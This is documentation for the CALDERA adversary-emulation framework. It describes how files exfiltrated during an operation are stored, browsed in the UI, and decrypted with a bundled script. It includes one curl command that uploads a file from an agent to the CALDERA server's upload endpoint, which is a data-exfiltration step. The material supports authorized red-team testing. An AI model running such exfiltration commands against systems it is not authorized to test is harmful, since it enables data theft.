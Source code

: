 # Exfiltration

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the CALDERA server in a directory specified in [/conf/default.yml](Server-Configuration.html#configuration-file).

## Exfiltrating Files

Some abilities will transfer files from the agent to the CALDERA server. This can be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.html#configuration-file). By default it is set to /tmp/caldera

## Accessing Exfiltrated Files

The server stores all exfiltrated files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.html#configuration-file). By default it is set to /tmp/caldera

Files can be accessed by pulling them directly from that location when on the server and manually unencrypting the files.

To simplify accessing exfiltrated files from a running caldera server, you can go the the advanced section in the CALDERA UI and click on the 'exfilled files' section.

From there you can select an operation (or all) from the drop down to see a listing of all the files in the exfil folder corresponding to the operation (specifically works with sandcat agents or any other agent using the same naming scheme for file upload folder) or in the directory along with the option to select any number of files to download directly to your machine.

All downloaded files will be unencrypted before passing along as a download.

## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-Configuration.html#configuration-file). By default it is also set to /tmp


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.

